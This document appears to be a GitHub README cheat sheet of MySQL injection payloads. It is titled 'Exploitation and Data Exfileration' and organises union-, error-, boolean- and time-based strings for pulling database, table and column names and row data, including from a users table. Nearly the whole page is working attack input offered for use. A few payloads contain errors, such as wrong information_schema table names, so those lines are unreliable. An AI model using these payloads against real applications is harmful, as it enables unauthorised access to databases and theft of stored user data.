 # Exploitation and Data Exfileration

 # UNION BASED

Database Name
```
UNION SELECT 1,database(),3,4,5,6,7,8,9,10,11
```
Table Name
```
UNION SELECT 1,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1),3,4,5,6,7,8,9,10,11
```

Column name
```
UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name='carts' limit 1,1),3,4,5,6,7,8,9,10,11

UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name='cedveladi' limit 1,1),3,4,5,6,7,8,9,10,11
```

# ERROR BASED

Database Name
```
extractvalue(rand(),concat(1,(database())))
```
Table Name
```
extractvalue(rand(),concat(1,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1)))
```
Column Name 
```
extractvalue(rand(),concat(1,(SELECT column_name FROM information_schema.columns WHERE table_name='cedveladi' limit 1,1)))
```

# BOOLEAN BASED

Database Name size enumeration
```
AND (length(database())) = 15 --+
```

Database Name
```
AND SUBSTRING(database(),1,1)='b'
```

Table Name
```
AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1),1,1)='c'
```
Column Name 
```
AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='cedvelinadi' LIMIT 1,1),1,1)='c'
```
Data
```
AND SUBSTRING((SELECT uname FROM users LIMIT 0,1),1,1)='t'
```
Speed up ....
![68747470733a2f2f7777772e61736369697461626c652e636f6d2f617363696966756c6c2e676966](https://github.com/azar-malikov/SQLi_cheatsheet/assets/103067933/5be75e82-2665-470f-9266-0983ae02ab31)

Database Name size enumeration
```
AND (length(database())) = 15 --+
```

Database Name
```
AND (ascii(substr((select database()),1,1))) > 110 --+
```

Table Name Size
```
AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 4 --+
```

Table Name
```
AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 108 --+
```

Column Name Size

```
AND (length((select column_name from information_schema.columns where table_name='cedvelinadi' limit 0,1))) = 4 --+
```

Column Name 
```
AND (ascii(substr((select column_name from information_schema.columns where table_name='cedvelinadi' limit 4,1) ,1,1))) > 114 --+
```
Data size
```
AND (length((select sutununadi from cedvelinadi limit 0,1))) = 6 --+
```
Data
```
AND (ascii(substr((select sutununadi from cedvelinadi limit 3,1) ,1,1))) > 114 --+
```


# TIME BASED
Database Name size enumeration
```
AND IF(length(database())=1,SLEEP(2),2)
```

Database Name
```
AND IF((SELECT database()) LIKE "",sleep(10),NULL)--
```

Table Name Size
```
 AND IF(length((select table_name from information_schema.tables where table_schema=database() LIMIT 0,1))=7,SLEEP(2),2)
```

Table Name
```
AND IF(((ascii(substr((SELECT table_name FROM information_schema.tables LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```

Column Name Size
```
AND IF(length((select table_name from information_schema.column WHERE table_name='cedvelinadi' LIMIT 0,1))=7,SLEEP(2),2)
```
Column Name
```
AND IF(((ascii(substr((SELECT column_name FROM information_schema.schema WHERE table_name='cedvelinadi' LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```

SPEED UP IN ASCII

Database Name

```
AND IF(((ascii(substr(Database(),1,1)))) > 95,sleep(10),NULL)--
```

Table Name 
```
AND IF(((ascii(substr((SELECT table_name FROM information_schema.tables LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```

Column Name 
```
AND IF(((ascii(substr((SELECT column_name FROM information_schema.columns LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```
Data size
```
AND (length((select sutununadi from cedvelinadi limit 0,1))) = 6 --+
```
Data
```
AND IF(((ascii(substr((select sutununadi from cedvelinadi limit 3,1),1,1)))) > 95,sleep(10),NULL)--
AND (ascii(substr((select sutununadi from cedvelinadi limit 3,1) ,1,1))) > 114 --+
```
